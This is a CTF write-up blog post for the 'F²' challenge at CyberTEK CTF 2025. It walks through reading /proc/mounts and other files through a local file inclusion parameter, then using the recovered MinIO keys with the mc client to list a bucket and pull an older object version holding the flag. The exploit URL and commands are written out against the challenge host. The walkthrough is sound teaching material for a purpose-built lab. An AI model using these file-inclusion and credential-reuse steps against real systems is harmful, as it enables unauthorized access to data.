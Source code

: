 ```yaml
---
title: "CyberTEK-CTF 2k25"
date: 2025-05-05
draft: false
description: "Solution for CTCTF 2025"
tags: ["ctf", "misc"]
---
```


# Intro

Yesterday, CyberTEK CTF held its second edition at TEK-UP University. The competition, as usual, featured over 40 custom-authored challenges that span different categories, and many participants (+100) praised the high quality of the challenges and the overall experience. However, due to my busy schedule with work and life, I could only author two challenges. The first challenge called Misty (cloud + gw misconfiguration) and the second challenge is F² (authored during the first half of the CTF). As Misty has had zero solves and I plan to keep it for future CTFs, I won't release the writeup for it yet. 

## F² Writeup

In this challenge, we’re given a parameter `f` that is vulnerable to **LFI**.  
At first glance, reading common files doesn’t reveal anything useful. But there’s a trick... (well, not every LFI gives a flag directly)

Accessing the `/proc/mounts` file can sometimes give interesting insights into mounted volumes or filesystems:

👉 [https://f2.tekup-securinets.org/?f=/proc/mounts](https://f2.tekup-securinets.org/?f=/proc/mounts)

In the output, we notice some suspicious and uncommon files:

```
travler-gate  
travler-key  
travler-ep  
inventory-99
```

Let’s grab those files using LFI.

After fetching the `travler-gate`, `travler-key`, and `travler-ep`, we find what look like **access credentials** (possibly for a service).

Next, try sending a request to the IP used in the challenge:

```bash
curl -v http://185.91.127.50:13131
```

And here's the response:

```
< Server: MinIO
...
< HTTP/1.1 403 Forbidden
```

The `Server: MinIO` header tells us that we’re dealing with a MinIO instance — a self-hosted S3-compatible object storage service.

This confirms that the **access and secret keys** we found earlier belong to this MinIO service.

## Accessing MinIO

Download the MinIO client `mc` from the official site:  
👉 [Download Minio here](https://min.io/docs/minio/linux/index.html)

Then, configure it with the keys we found:

```bash
mc alias set traveler http://185.91.127.50:13131 ACCESS_KEY SECRET_KEY
```

Now, list the available buckets:

```bash
mc ls traveler
```

You should see a bucket named `inventory-99`.

## Step 4: Explore the Bucket

Let’s list the contents:

```bash
mc ls traveler/inventory-99
```

There’s a file named `item`. Download and inspect it:

```bash
mc cp traveler/inventory-99/item .
cat item
```

At first glance, it looks like just a list of inventory items... nothing special.

```
- id: 001
  name: Rusty Sword
  type: Weapon
  rarity: Common
  quantity: 1

- id: 002
  name: Healing Potion
  type: Consumable
  rarity: Uncommon
  quantity: 3

- id: 003
  name: Silver Key
  type: Quest Item
  rarity: Rare
  quantity: 1
```

But wait, one of the S3 features is versioning, and MinIO supports **versioning** on buckets. That means previous versions of the files might still be accessible.

Let’s list all versions of the `item` file:

```bash
mc ls --versions traveler/inventory-99
```

Copy and check the **first version** of the file:

```bash
mc cp --vid <version-id> traveler/inventory-99/item flag
cat flag
-> securinets{kk12121212121212121212kk}
```

for more details check my git repository:

{{< github repo="chxmxii/CTF" >}}

You can also check the git repo for the other challenges:

{{< github repo="Securinets-TEKUP/CyberTEK-2.0" >}}
